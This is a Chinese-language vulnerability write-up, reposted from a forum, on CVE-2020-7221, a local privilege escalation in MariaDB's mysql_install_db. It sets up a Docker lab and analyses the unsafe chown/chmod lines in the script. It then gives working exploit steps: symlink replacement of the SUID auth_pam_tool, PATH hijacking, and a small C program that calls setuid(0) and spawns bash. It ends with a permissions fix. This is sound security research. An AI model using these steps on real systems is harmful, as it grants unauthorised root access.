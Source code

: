 # （CVE-2020-7221）Mariadb 提权漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3014](https://www.zhihuifly.com/t/topic/3014)

# （CVE-2020-7221）Mariadb 提权漏洞

## 一、漏洞简介

MariaDB 10.4.7到10.4.11中的mysql_install_db允许将特权从mysql用户帐户升级到root用户，因为chown和chmod的执行不安全，如对auth_pam_tool_dir / auth_pam_tool的chmod 04755的symlink攻击所证明的那样。注意：这不会影响Oracle MySQL产品，该产品以不同的方式实现mysql_install_db。

## 二、漏洞影响

Mariadb 10.4.7到10.4.11

## 三、复现过程

#### docker环境搭建：

> 1.  docker pull mariadb:10.4.8
> 2.  docker run -it 2ef19234ff46 /bin/bash

#### 漏洞分析

首先定位漏洞点。

```
find / -name "mysql_install_db" 
```

![image](img/923052014efeeccd82500cd9a126b9df.png)

在bash脚本上下文中，如果$user被定义则能进入「配置不当」漏洞点。

```
chown $user "$pamtooldir/auth_pam_tool_dir" `chmod 0700 “$pamtooldir/auth_pam_tool_dir”` 
```

这里配置了auth_pam_tool_dir目录的归属权和所有权，权限归属于$user。 （这里是可控点之一）

```
chown 0 "$pamtooldir/auth_pam_tool_dir/auth_pam_tool" `chmod 04755 “$pamtooldir/auth_pam_tool_dir/auth_pam_tool”` 
```

这里配置了auth_pam_tool文件为0（root）所有权，4755文件权限（4为suid权限）。想要进入这个漏洞点需要$srcdir变量值长度为0才能触发。

关于suid属性：

> SUID属性一般用在可执行文件上，当用户执行该文件时，会「临时拥有该执行文件的所有者权限」。一旦程序拥有SUID权限的话，运行该程序时会以最高权限运行。

##### 回溯 $srcdir 与 $user

1.  $user

![image](img/ecbfd45e2034d988750cf4f31db2709c.png)

在脚本传递args参数时可控制$user变量。

1.  $srcdir

![image](img/bc31a66978677d1a394e136e414fb650.png)

也在初始化操作时可控制变量，初始化时为空。

那么想要进入这个漏洞点需要$srcdir为空，$user需要设置值。

结合上文描述使用此命令才能触发漏洞点：

```
./mysql_install_db --user=mysql 
```

#### 漏洞复现

寻找suid属性的程序

```
find /* -perm -u=s -type f 2>/dev/null 
```

搜索到的suid属性程序「auth_pam_tool」替换成我们的恶意suid程序。

```
1\. rm auth_pam_tool
2\. ln -s /root/pwn auth_pam_tool
3\. export PATH=.:$PATH
4\. ln -s /bin/bash ps 
```

编写一个具有suid权限的恶意程序：

```
#include <unistd.h>
#include <stdlib.h>
int main(void)
{
    setuid(0);
    setgid(0);
    system("ps");
    return 0;
} 
```

![image](img/8624d17ebbd3c35b9c97add491bec23f.png)

切换回root，在root权限下运行mysql_install_db脚本（触发修改chmod命令）

![image](img/f3805060c829c247ac35290d3d318b2b.png)

再回到mysql用户权限下执行auth_pam_tool

![image](img/5bd62d33121091073ccb03e84b24f073.png)

提权成功。

可以看到这个漏洞是由于suid与目录权限设置不当，才导致被提权利用的风险。建议在修复中设置auth_pam_tool_dir目录权限为root所有：

```
root:mysql  0750 /usr/lib/mysql/plugin/auth_pam_tool_dir 
```

## 参考链接

> https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ==&mid=2247486415&idx=1&sn=0e413fdfd22f21580e0c70251e53a7cb&chksm=fe7a2f57c90da64190913e4f40d5f854dcc0c794ac988ce667f1ba0d4a262575b5c4a67b65a1&mpshare=1&scene=1&srcid=&sharer_sharetime=1582037009796&sharer_shareid=346bf064ccfaeb680ec3e1af3a4fc9a8&key=36a0b0f21e7aca1c7ade662e9184d730b9617a817ebf64e5bbc6048142797fa6b31c917039b5d1308f1d16cf77ba9f43d541a1bd197ead9b66bb01969c4f1bf2c54e19862f1f9bc1f449495c27554e90&ascene=1&uin=MTU0OTU5NDkzMA%3D%3D&devicetype=Windows+10&version=62080079&lang=zh_CN&exportkey=AUm27aB0HayWjmPDBsXi7NU%3D&pass_ticket=VkgA7hk5gRtBGyr1o4%2Bh5PlNbfx095JODofk2U16AOMJewFkqv%2BeZkeziLm0G2um